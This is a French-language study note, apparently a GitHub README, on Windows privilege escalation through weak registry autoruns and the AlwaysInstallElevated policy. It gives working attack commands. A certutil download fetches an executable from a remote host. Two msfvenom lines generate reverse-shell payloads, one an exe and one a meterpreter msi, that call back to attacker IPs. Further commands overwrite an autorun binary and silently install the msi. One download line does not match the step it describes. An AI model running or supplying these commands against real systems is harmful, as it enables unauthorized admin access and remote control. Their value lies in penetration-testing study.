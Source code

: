 This is my learning about windows Privilege Escalation
## Weak Registry Autoruns Escalation
Windows peut être configuré pour exécuter des commandes au démarrage, ce processus est appelé AutoRun. Ces exécutions automatiques sont configurées dans le registre. Si vous êtes en mesure d'écrire dans un exécutable AutoRun et de redémarrer le système (ou d'attendre qu'il soit redémarré), vous pouvez être en mesure d'élever vos privilèges.

Pour cela utilisons winpeas pour voir s'il ya des programmes qui ont un droit de autorun
```
certutil.exe -urlcache -f http://10.0.0.5/40564.exe bad.exe
.\winPEASany.exe quiet applicationsinfo
```
trouver un program d'autorun  qui es le program.exe dans `C:\Program Files\Autorun Program\program.exe`

Si nous souhaitons effectuer l'énumération manuellement, il suffit d'utiliser la commande ci-dessous :
```
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
```
Pour vérifier la permission du programme.exe, nous utiliserons accesschk.exe.

```
.\accesschk.exe /accepteula -wvu "Program path"
```
Maintenant pour l'exploiter on doit creer un program avec le meme nom que program.exe avec notre listner
```
msfvenom -p windows/shell_reverse_tcp lhost=10.4.5.83 lport=53 -f exe > shell.exe
```
copy it to program.exe
```
copy /Y shell.exe "C:\Program Files\Autorun Program\program.exe"
```

## AlwaysInstallElevated
 Dans les tests de pénétration, lorsque nous lançons un shell de commande en tant qu'utilisateur local, il est possible d'exploiter les fonctions vulnérables (ou les paramètres de configuration) de la stratégie de groupe de Windows, afin de les élever aux privilèges d'administrateur et d'obtenir l'accès d'administrateur.
 Comme nous le savons tous, le système d'exploitation Windows est doté d'un moteur Windows Installer qui est utilisé par les paquets MSI pour l'installation d'applications. Ces paquets MSI peuvent être installés avec des privilèges élevés pour les utilisateurs non administrateurs.
**Detection**
Pour detecter cela il suffit
```
reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
```
Comme nous pouvons le voir dans la sortie, le registre nommé "AlwaysInstallElevated" existe avec une valeur dword (REG_WORD) de 0x1, ce qui signifie que la stratégie AlwaysInstallElevated est activée.

- Privilege Escalation via .msi payload (1st Method)
La premiere methode est de creer un payload en `.msi` ensuite l'executer avec `msiexec /quiet /qn /i`
/quiet = Supprime tout message à l'utilisateur pendant l'installation
/qn = Pas d'interface graphique
/i = Installation normale (vs. administrative)
```
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.1.120 lport=4567 -f msi > shell.msi

msiexec /quiet /qn /i shell.msi
```